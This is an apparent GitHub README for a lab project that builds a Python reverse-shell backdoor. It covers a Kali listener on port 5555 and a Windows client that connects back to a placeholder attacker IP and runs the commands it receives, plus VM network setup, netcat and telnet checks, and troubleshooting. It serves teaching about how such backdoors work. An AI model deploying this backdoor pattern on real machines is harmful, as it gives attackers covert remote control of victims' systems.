

# Remote Access Backdoor using Python

## 📌 Overview
This project demonstrates a basic **reverse shell backdoor** using Python's `socket`, `subprocess`, and `json` modules. It establishes a connection between an attacker's machine (server) and a victim's machine (client/backdoor) over a TCP socket, allowing remote command execution.

> **Disclaimer:** This project is for educational purposes only. Do not use it for unauthorized access or illegal activities.

---

## 🔧 Components

### 1. `server.py` (Attacker Side - Listener)
- Listens on a specific port (`5555`) for incoming connections.
- Accepts commands from the attacker and sends them to the client.
- Receives and displays the output of those commands.

### 2. `backdoor.py` (Victim Side - Client)
- Continuously tries to connect to the attacker's IP and port.
- Once connected, receives commands, executes them, and sends back the result.

---

## 💻 Prerequisites

- Python 3.x on both attacker and victim machines
- A virtualized environment using **VirtualBox/VMware** (recommended)
- Networking properly set (Bridged Adapter preferred for cross-OS communication)
- pyinstaller - for converting and debugging 
- telnet in windows to ping on that port number

---

## 🔌 Network Configuration

### For VM:
- Set **Network Adapter** to `Bridged Adapter` (for LAN-level communication).
- Ensure both host (Windows) and guest (Kali Linux) are on the same subnet.

### To Find IP:
- On Kali: `ifconfig`
- On Windows: `ipconfig`

---

## 🚀 Setup & Execution

### Step 1: Run Server (on Kali Linux)
```bash
sudo python3 server.py
```
> Make sure port 5555 is open. You can check with:
```bash
sudo ss -tlpn | grep :5555
```

### Step 2: Modify & Run Backdoor (on Windows)
- Change this line in `backdoor.py`:
```python
soc.connect(("<KALI_IP>", 5555))
```
- Replace `<KALI_IP>` with the actual IP of your Kali machine (e.g., `192.168.1.10`).
- Run the script on Windows:
```bash
python backdoor.py
```

### Step 3: Control via Server
Once connected, you can use commands:
- `cd <dir>` – Change directory
- `clear` – Clear screen (Kali only)
- `quit` – Close connection
- Any system command (e.g., `ipconfig`, `dir`, `whoami`)

---

## 🧪 Testing Tools (Optional)
You can use `telnet` or `nc` (netcat) from Windows to verify connection:
```bash
telnet <KALI_IP> 5555
```
Or:
```bash
nc -v <KALI_IP> 5555
```

---

## ❗ Common Errors & Fixes

| Issue | Cause | Solution |
|------|-------|----------|
| `Could not open connection to the host on port 5555` | Wrong IP/port, server not running | Check if server is running and IP is correct |
| `server.py` shows nothing on telnet | Server not accepting connections properly | Make sure port is open and bound to 0.0.0.0 |
| `backdoor.py` crashes with `TypeError` on `str(ip_addr)` | `ip_addr` was not unpacked correctly | Replace `ip_addr` with `addr[0]` if `addr = soc.accept()` |
| VM won’t start on Host-only Adapter | VirtualBox config issue | Use Bridged Adapter instead |
| `backdoor.py` doesn’t connect | Wrong IP or firewall issue | Use Bridged Adapter and disable firewalls if needed |

---

## 💡 Suggestions

- **Start server before client** – Otherwise connection will be refused.
- **Use `0.0.0.0` on server** to bind on all interfaces.
- **Use correct IP** – Never use `127.0.0.1` for cross-machine connection.
- **Debug step-by-step** – First check with `telnet/nc`, then test Python scripts.

---

## ✅ Final Notes

This project simulates how reverse shells work at the most basic level. It is useful for:
- Understanding socket programming
- Simulating a simple backdoor
- Learning how attackers exploit insecure systems

> **⚠ Use responsibly. Only run the backdoor on your own systems for ethical and legal testing.**

---

## 📂 File Structure
```
project-root/
├── server.py      # Listener (Kali)
├── backdoor.py    # Payload (Windows)
├── README.md      # Project description
```

---

## 🔗 License
This project is licensed for **educational use only**.

